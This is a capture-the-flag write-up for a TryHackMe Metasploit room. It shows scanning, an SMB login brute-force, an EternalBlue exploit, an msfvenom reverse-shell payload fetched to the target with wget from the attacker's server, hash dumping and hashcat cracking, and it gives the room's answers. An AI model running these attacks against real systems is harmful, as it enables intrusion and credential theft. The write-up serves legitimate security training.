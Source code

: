 ![Metasploit: Exploitation Banner](https://assets.tryhackme.com/room-banners/metasploit.png)

<p align="center">
   <img src="https://github.com/Kevinovitz/TryHackMe_Writeups/blob/main/metasploitexploitation/Metasploit_Exploitation_Cover.png" alt="Metasploit: Exploitation Logo">
</p>

# Metasploit: Exploitation

This guide contains the answer and steps necessary to get to them for the [Metasploit: Exploitation](https://tryhackme.com/room/metasploitexploitation) room.

## Table of contents

- [Scanning](#scanning)
- [The Metasploit Database](#the-metasploit-database)
- [Vulnerability Scanning](#vulnerability-scanning)
- [Exploitation](#exploitation)
- [Msfvenom](#msfvenom)

### Scanning

1. How many ports are open on the target system?

   ```cmd
   use auxiliary/scanner/portscan/tcp
   ```
   
   ![Portscan](https://github.com/Kevinovitz/TryHackMe_Writeups/blob/main/metasploitexploitation/Metasploit_Exploitation_Scanning_Portscan.png)

   ><details><summary>Click for answer</summary>5</details>

2. Using the relevant scanner, what NetBIOS name can you see?

   ```cmd
   use auxiliary/scanner/discovery/udp_sweep
   ```

   ![Netbios](https://github.com/Kevinovitz/TryHackMe_Writeups/blob/main/metasploitexploitation/Metasploit_Exploitation_Scanning_Netbios.png)

   ><details><summary>Click for answer</summary>ACME IT SUPPORT</details>

3. What is running on port 8000?

   ```cmd
   nmap -sV 10.10.162.76
   ```

   ![Nmap](https://github.com/Kevinovitz/TryHackMe_Writeups/blob/main/metasploitexploitation/Metasploit_Exploitation_Scanning_Nmap.png)

   ><details><summary>Click for answer</summary>WebFS/1.21</details>

4. What is the "penny" user's SMB password? Use the wordlist mentioned in the previous task. 

   ```cmd
   use auxiliary/scanner/smb/smb_login
   ```

   ![Smb](https://github.com/Kevinovitz/TryHackMe_Writeups/blob/main/metasploitexploitation/Metasploit_Exploitation_Scanning_SMB.png)

   ><details><summary>Click for answer</summary>leo1234</details>

### The Metasploit Database

Lets try yo replicate what they are doing. First we need to start the databases and then Metasploit.

```cmd
systemctl start postgresql

sudo msfdb init
```

![Initialize](https://github.com/Kevinovitz/TryHackMe_Writeups/blob/main/metasploitexploitation/Metasploit_Exploitation_Database_Initialize)

Now we can interact with the database with the following commands:

```cmd
db_status                  -> Check datanase status
workspace                  -> List workspaces
workspace -a tryhackme     -> Add a workspace
workspace default          -> Cange active workspace
```

![Msf](https://github.com/Kevinovitz/TryHackMe_Writeups/blob/main/metasploitexploitation/Metasploit_Exploitation_Database_msf)

```cmd
db_nmap -p- 10.10.162.76   -> Perform an nmap scan and output results to the database
```

![Scan](https://github.com/Kevinovitz/TryHackMe_Writeups/blob/main/metasploitexploitation/Metasploit_Exploitation_Database_Scan)

### Vulnerability Scanning

1. Who wrote the module that allows us to check SMTP servers for open relay?

   Look the the corresponding module and use `info`.
   
   ```cmd
   use auxiliary/scanner/smtp/smtp_relay
   info
   ```
   
   ![Smtp](https://github.com/Kevinovitz/TryHackMe_Writeups/blob/main/metasploitexploitation/Metasploit_Exploitation_Vulnerability_SMTP)

   ><details><summary>Click for answer</summary>Campbell Murray</details>

### Exploitation

1. Exploit one of the critical vulnerabilities on the target VM

   We can do some scans to look for particular vulnerabilities. One easy thing to check is the host OS version. 
   
   ![Host](https://github.com/Kevinovitz/TryHackMe_Writeups/blob/main/metasploitexploitation/Metasploit_Exploitation_Exploitation_Host)
   
   Looks like this might be vulnerable to the Eternal Blue exploit.
   
   ```cmd
   use exploit/windows/smb/ms17_010_eternalblue
   ```

   ![Exploited](https://github.com/Kevinovitz/TryHackMe_Writeups/blob/main/metasploitexploitation/Metasploit_Exploitation_Exploitation_Exploited)

2. What is the content of the flag.txt file?

   Search through the user folder to find and read the flag.
   
   ![Flag](https://github.com/Kevinovitz/TryHackMe_Writeups/blob/main/metasploitexploitation/Metasploit_Exploitation_Exploitation_Flag)

   ><details><summary>Click for answer</summary>THM-5455554845</details>

3. What is the NTLM hash of the password of the user "pirate"?

   ```cmd
   use post/windows/gather/hashdump
   ```
   
   ![Hash](https://github.com/Kevinovitz/TryHackMe_Writeups/blob/main/metasploitexploitation/Metasploit_Exploitation_Exploitation_Hash)

   ><details><summary>Click for answer</summary>8ce9a3ebd1647fcc5e04025019f4b875</details>

### Msfvenom
   
1. Launch the VM attached to this task. The username is murphy, and the password is 1q2w3e4r. You can connect via SSH or launch this machine in the browser. Once on the terminal, type "sudo su" to get a root shell, this will make things easier.
   
   ```cmd
   ssh murphy@10.10.164.113
   ```
   
   User the provided password to log in. Then switch to the root user with: `sudo su`.

2. Create a meterpreter payload in the .elf format (on the AttackBox, or your attacking machine of choice).

   ```cmd
   msfvenom -p linux/x86/meterpreter/reverse_tcp lhost=10.18.78.136 lport=1337 -f elf -o shell.elf
   ```
   
   ![Creation](https://github.com/Kevinovitz/TryHackMe_Writeups/blob/main/metasploitexploitation/Metasploit_Exploitation_Msfvenom_Creation)
   
3. Transfer it to the target machine (you can start a Python web server on your attacking machine with the python3 -m http.server 9000 command and use wget http://ATTACKING_MACHINE_IP:9000/shell.elf to download it to the target machine).

   ```cmd
   On our attackbox:
   python -m http.server 8080
   
   On the target machine:
   wget 10.18.78.136:8080/shell.elf
   ```
   
   ![Transfer](https://github.com/Kevinovitz/TryHackMe_Writeups/blob/main/metasploitexploitation/Metasploit_Exploitation_Msfvenom_Transfer)
   
4. Get a meterpreter session on the target machine.

   First set up the handler in Metasploit, then change the file permission, and lastly, run the file on the target machein.
   
   ```cmd
   use exploit/multi/handler
   ```
   
   ![Handler](https://github.com/Kevinovitz/TryHackMe_Writeups/blob/main/metasploitexploitation/Metasploit_Exploitation_Msfvenom_Handler)
   
   ```cmd
   chmod +x shell.elf
   
   ./shell.elf
   ```
   
   ![Run](https://github.com/Kevinovitz/TryHackMe_Writeups/blob/main/metasploitexploitation/Metasploit_Exploitation_Msfvenom_Run)
   
   ![Connection](https://github.com/Kevinovitz/TryHackMe_Writeups/blob/main/metasploitexploitation/Metasploit_Exploitation_Msfvenom_Connection)
   
5. Use a post exploitation module to dump hashes of other users on the system.

   ```cmd
   use post/linux/gather/hashdump
   ```
   
   ![Hash](https://github.com/Kevinovitz/TryHackMe_Writeups/blob/main/metasploitexploitation/Metasploit_Exploitation_Msfvenom_Hash)
   
6. What is the other user's password hash?

   The hash can be found in the previous image. However, we could even go a step furter and try to crack the hash with hashcat.
   
   ```cmd
   echo '$6$Sy0NNIXw$SJ27WltHI89hwM5UxqVGiXidj94QFRm2Ynp9p9kxgVbjrmtMez9EqXoDWtcQd8rf0tjc77hBFbWxjGmQCTbep0' > passwd.hash
   ```
   
   ```cmd
   hashcat -a 3 passwd.hash /usr/share/wordlists/rockyou.txt  
   ```
   
   ![Hashcat](https://github.com/Kevinovitz/TryHackMe_Writeups/blob/main/metasploitexploitation/Metasploit_Exploitation_Msfvenom_Hashcat)

   ><details><summary>Click for answer</summary>$6$Sy0NNIXw$SJ27WltHI89hwM5UxqVGiXidj94QFRm2Ynp9p9kxgVbjrmtMez9EqXoDWtcQd8rf0tjc77hBFbWxjGmQCTbep0</details>
